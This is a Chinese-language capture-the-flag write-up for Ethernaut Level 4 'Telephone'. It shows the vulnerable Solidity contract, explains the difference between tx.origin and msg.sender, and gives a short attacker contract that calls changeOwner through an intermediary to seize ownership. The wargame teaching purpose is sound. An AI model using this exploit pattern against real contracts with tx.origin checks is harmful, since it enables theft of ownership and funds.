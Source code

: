 #   Level 4 Telephone
實例地址：`0x5552ee9E96f334773e9A7900f23b287aa7335363`

##  題目說明
取得下面合約的所有權，來完成這一關。

可能會有用的資訊
*   參閱幫助頁面 "Beyond the console" 章節

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
##  POC
轉換 owner 條件，需要 `tx.origin` 不等於 `msg.sender`，所以需要撰寫一個攻擊合約呼叫原合約達成不等於條件。

`tx.origin` : 最初交易創建者

`msg.sender` : 合約呼叫者

### 攻擊者合約
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Telephone{
    function changeOwner(address _owner) external;
}

contract Attack{
    address public target;

    constructor(address _target){
        target = _target;
    }

    function attack() public{
        Telephone(target).changeOwner(msg.sender);
    }
}
```
